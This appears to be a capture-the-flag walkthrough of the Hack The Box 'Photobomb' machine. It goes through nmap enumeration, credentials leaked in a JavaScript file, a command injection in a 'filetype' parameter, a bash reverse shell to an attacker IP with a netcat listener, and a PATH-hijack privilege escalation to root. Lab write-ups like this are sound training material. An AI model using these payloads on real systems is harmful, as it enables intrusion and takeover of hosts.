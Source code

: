 # 📸 HTB Photobomb – Walkthrough (Easy Linux)

## 01 – Enumeration

### 🔍 Nmap Scan

**Command:**

```bash
nmap -sC -sV -oA nmap/photobomb 10.10.11.182
```

**Result:**

- `22/tcp` – OpenSSH 8.9p1 (Ubuntu 3ubuntu0.1)
    
- `80/tcp` – nginx 1.18.0 (Ubuntu)
    
- Virtual host: `photobomb.htb`
    

**Action:** Add the hostname to `/etc/hosts`

```bash
sudo nano /etc/hosts
```

Add this line:

```
10.10.11.182    photobomb.htb
```

### 🧠 Key Findings

- SSH is open – potential access vector after exploitation.
    
- The web server serves content for `photobomb.htb`, not just the IP.
    

---

## 02 – Initial Access

### 🔐 Discovered Credentials

While viewing the page source (`Ctrl+U`), a script tag references `photobomb.js`. Inside the JS code:

```javascript
// Jameson: pre-populate creds for tech support...
document.getElementsByClassName('creds')[0].setAttribute(
  'href',
  'http://pH0t0:b0Mb!@photobomb.htb/printer'
);
```

**Credentials:**

- Username: `pH0t0`
    
- Password: `b0Mb!`
    

**Login URL:**

```
http://photobomb.htb/printer
```

### ✅ Access Confirmed

This endpoint is protected via **Basic Auth**. After logging in, it reveals a photo download panel with options to:

- Set dimensions (e.g., 30x20)
    
- Select file type (e.g., JPG, PNG)
    
- Submit download
    

---

### 🧠 Observations

- The image download triggers backend processing (likely ImageMagick or similar)
    
- Parameters in the POST request may be vulnerable to injection
    

**Next:** Use **Burp Suite** to intercept and test for vulnerabilities in form parameters.

---

## 03 – Exploitation: Remote Code Execution (RCE)

### 🔎 Testing with Burp

When intercepting the request in Burp, we noticed:

```
POST /printer HTTP/1.1
Host: photobomb.htb
Authorization: Basic cEgwdDBiOmIwTWIh
Content-Type: application/x-www-form-urlencoded

photo=1337&filetype=jpg;id
```

- Adding `;id` to `filetype` executed system command `id`
    

➡️ **This confirms a command injection vulnerability.**

---

### 🔙 Gaining Reverse Shell

**Reverse shell payload (Bash):**

```bash
filetype=jpg;bash -i >& /dev/tcp/10.10.14.2/4444 0>&1
```

Start listener on attacker machine:

```bash
nc -lvnp 4444
```

After submission, a shell is received as user `wizard`:

```bash
wizard@photobomb:~/photobomb$
```

To stabilize the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

## 04 – Privilege Escalation

### 🔍 Sudo Permissions

```bash
sudo -l
```

```
User wizard may run the following command:
  (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

➡️ We can run `/opt/cleanup.sh` as root with custom environment variables.

### 🔍 Script Analysis

```bash
cat /opt/cleanup.sh
```

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]; then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

**Notice:** The script uses `find` without full path. We can hijack it via `$PATH`.

---

### 🚀 Exploiting PATH Hijack

1. Create malicious `find` in `/dev/shm`
    

```bash
cd /dev/shm
echo -e '#!/bin/bash\nbash' > find
chmod +x find
```

2. Run cleanup script with manipulated PATH:
    

```bash
sudo PATH=/dev/shm:$PATH /opt/cleanup.sh
```

➡️ Root shell gained ✅

```bash
root@photobomb:/home/wizard/photobomb#
```

---

## 🏁 Flags

### 🧑‍💻 User Flag

```bash
cat /home/wizard/user.txt
```

```
HTB{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```

### 👑 Root Flag

```bash
cat /root/root.txt
```

```
HTB{yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy}
```

---

## ✅ Summary

- Initial foothold via credentials found in JS
    
- Command injection in `filetype` param → reverse shell
    
- `sudo` rights on `cleanup.sh` using `find` → PATH hijack → root
    
- Optional: Advanced method with `enable -n` and `BASH_ENV`
    

---

🎯 **Machine pwned.**

